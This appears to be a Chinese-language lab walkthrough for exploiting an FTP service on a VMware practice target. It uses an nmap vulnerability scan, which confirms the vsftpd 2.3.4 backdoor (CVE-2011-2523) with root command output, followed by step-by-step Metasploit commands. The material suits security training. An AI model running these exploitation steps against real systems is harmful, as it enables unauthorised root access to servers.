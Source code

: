 # 21_FTP.md

使用nmap对靶机进行扫描

> nmap -p 21 -sV -T4 --version-all --script vuln 10.10.10.6

![image-20210318161100985](../../image/meteaspolitale2/image-20210318161100985.png)

获得信息

>PORT   STATE SERVICE VERSION
>21/tcp open  ftp     vsftpd 2.3.4
>| ftp-vsftpd-backdoor:
>|   VULNERABLE:
>|   vsFTPd version 2.3.4 backdoor
>|     State: VULNERABLE (Exploitable)
>|     IDs:  CVE:CVE-2011-2523  BID:48539
>|       vsFTPd version 2.3.4 backdoor, this was reported on 2011-07-04.
>|     Disclosure date: 2011-07-03
>|     Exploit results:
>|       Shell command: id
>|       Results: uid=0(root) gid=0(root)
>|     References:
>|       https://www.securityfocus.com/bid/48539
>|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-2523
>|       http://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html
>|_      https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/unix/ftp/vsftpd_234_backdoor.rb
>|_sslv2-drown:
>MAC Address: 00:0C:29:FA:DD:2A (VMware)
>Service Info: OS: Unix

![image-20210318161143796](../../image/meteaspolitale2/image-20210318161143796.png)

分别发现`CVE-2011-2523`的漏洞,vsftpd版本号`2.3.4`

使用msfconsole进行利用

> search vsftp 2.3.4

![image-20210318164832557](../../image/meteaspolitale2/image-20210318164832557.png)

选择漏洞脚本

> use  exploit/unix/ftp/vsftpd_234_backdoor

设置靶机ip

>  set RHOSTS 10.10.10.6

![image-20210318165953689](../../image/meteaspolitale2/image-20210318165953689.png)

参数设置完成

攻击

> exploit

![image-20210318170131032](../../image/meteaspolitale2/image-20210318170131032.png)

漏洞利用成功

